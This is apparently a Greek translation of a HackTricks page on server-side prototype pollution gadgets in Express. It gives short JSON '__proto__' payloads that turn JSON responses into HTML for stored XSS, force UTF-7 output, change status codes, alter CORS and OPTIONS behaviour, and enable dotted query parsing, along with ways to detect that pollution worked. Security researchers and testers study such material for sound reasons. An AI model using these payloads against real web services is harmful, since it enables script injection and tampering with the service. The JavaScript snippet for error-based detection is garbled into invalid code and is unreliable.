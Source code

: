 # Express Prototype Pollution Gadgets

{{#include ../../../banners/hacktricks-training.md}}

## Serve XSS responses

**Για περισσότερες λεπτομέρειες** [**ρίξτε μια ματιά στην αρχική έρευνα**](https://portswigger.net/research/server-side-prototype-pollution)

### Change JSON content-type to HTML

Σε μια εφαρμογή Express που χρησιμοποιεί **JSON content type response** και ανακλά ένα JSON:
```javascript
app.use(bodyParser.json({ type: "application/json" }))
app.post("/", function (req, res) {
_.merge({}, req.body)
res.send(req.body)
})
```
Σε αυτές τις περιπτώσεις, το XSS δεν είναι συνήθως δυνατό με τύπο περιεχομένου JSON. Ωστόσο, με την μόλυνση πρωτοτύπου μπορούμε να **μπερδέψουμε το Express ώστε να εξυπηρετήσει μια HTML απάντηση.** Αυτή η ευπάθεια βασίζεται στη χρήση του **`res.send(obj)`** και στη χρήση του body parser με τον τύπο περιεχομένου application/json.
```json
{ "__proto__": { "_body": true, "body": "<script>evil()" } }
```
Με την **ρύπανση** των ιδιοτήτων **`body`** και **`_body`**, είναι δυνατόν να προκαλέσετε **την Express να σερβίρει τον τύπο περιεχομένου HTML** και να ανακλά την ιδιότητα `_body`, με αποτέλεσμα αποθηκευμένο XSS.

### Απόδοση UTF7

Είναι δυνατόν να κάνετε την express **να αποδώσει περιεχόμενο UTF-7 με**:
```json
{ "__proto__": { "content-type": "application/json; charset=utf-7" } }
```
## Ασφαλείς Τεχνικές Σάρωσης

### JSON spaces

Η παρακάτω PP θα προσθέσει ένα επιπλέον κενό σε χαρακτηριστικά μέσα σε ένα JSON που δεν θα σπάσει τη λειτουργικότητα:
```json
{ "__proto__": { "json spaces": " " } }
```
Τότε ένα αντανάκλαση JSON θα φαίνεται έτσι:
```json
{"foo":  "bar"} -- Note the extra space
```
### Εκτεθειμένες Κεφαλίδες

Το παρακάτω PP gadget θα κάνει τον διακομιστή να στείλει πίσω την HTTP κεφαλίδα: **`Access-Control-Expose_headers: foo`**
```json
{ "__proto__": { "exposedHeaders": ["foo"] } }
```
Απαιτείται η **εγκατάσταση του CORS module**

### **Μέθοδος OPTIONS**

Με το παρακάτω payload, είναι δυνατόν να **κρυφτεί μια μέθοδος από μια απάντηση OPTIONS**:
```javascript
// Original reponse: POST,GET,HEAD

// Payload:
{"__proto__":{"head":true}}

//New response: POST;GET
```
### **Κατάσταση**

Είναι δυνατόν να αλλάξετε τον **κωδικό κατάστασης που επιστρέφεται** χρησιμοποιώντας το παρακάτω φορτίο PP:
```json
{ "__proto__": { "status": 510 } }
```
### Σφάλμα

Όταν αναθέτετε σε ένα πρωτότυπο με μια πρωτογενή τιμή όπως μια συμβολοσειρά, παράγει μια **λειτουργία no-op καθώς το πρωτότυπο πρέπει να είναι ένα αντικείμενο**. Εάν προσπαθήσετε να αναθέσετε ένα αντικείμενο πρωτοτύπου στο `Object.prototype` αυτό θα **ρίξει μια εξαίρεση**. Μπορούμε να χρησιμοποιήσουμε αυτές τις δύο συμπεριφορές για να **ανιχνεύσουμε αν η ρύπανση του πρωτοτύπου ήταν επιτυχής**:
```javascript
;({}).__proto__.__proto__ = {}(
//throws type exception
{}
).__proto__.__proto__ = "x" //no-op does not throw exception
```
### Αντανάκλαση Τιμής

Όταν μια εφαρμογή περιλαμβάνει ένα αντικείμενο στην απάντησή της, η δημιουργία ενός χαρακτηριστικού με **ασυνήθιστο όνομα μαζί με το `__proto__`** μπορεί να είναι διαφωτιστική. Συγκεκριμένα, αν **μόνο το ασυνήθιστο χαρακτηριστικό επιστρέφεται** στην απάντηση, αυτό θα μπορούσε να υποδηλώνει την ευπάθεια της εφαρμογής:
```json
{ "unusualName": "value", "__proto__": "test" }
```
Επιπλέον, σε σενάρια όπου χρησιμοποιείται μια βιβλιοθήκη όπως το Lodash, η ρύθμιση μιας ιδιότητας τόσο μέσω της ρύθμισης πρωτοτύπου (PP) όσο και άμεσα μέσα στο αντικείμενο προσφέρει μια άλλη διαγνωστική προσέγγιση. Εάν μια τέτοια ιδιότητα παραλειφθεί από την απάντηση, υποδηλώνει ότι το Lodash επαληθεύει την ύπαρξη της ιδιότητας στο στοχευόμενο αντικείμενο πριν από τη συγχώνευση:
```javascript
{"__proto__":{"a":"value1"},"a":"value2","b":"value3"}
// If 'b' is the only property reflected, this indicates prototype pollution in Lodash
```
## Διάφορα

### Επιτρέψτε Τελείες

Υπάρχει μια επιλογή στο Express που σας επιτρέπει να **δημιουργείτε αντικείμενα από παραμέτρους συμβολοσειράς ερωτήματος**.\
Μπορείτε σίγουρα να το χρησιμοποιήσετε σε μια **αλυσίδα** σφαλμάτων για να εκμεταλλευτείτε μια **ευπάθεια μόλυνσης πρωτοτύπου**.
```json
{ "__proto__": { "allowDots": true } }
```
**`?foo.bar=baz` δημιουργεί ένα αντικείμενο στο Node.**

## Αναφορές

- [https://portswigger.net/research/server-side-prototype-pollution](https://portswigger.net/research/server-side-prototype-pollution)

{{#include ../../../banners/hacktricks-training.md}}
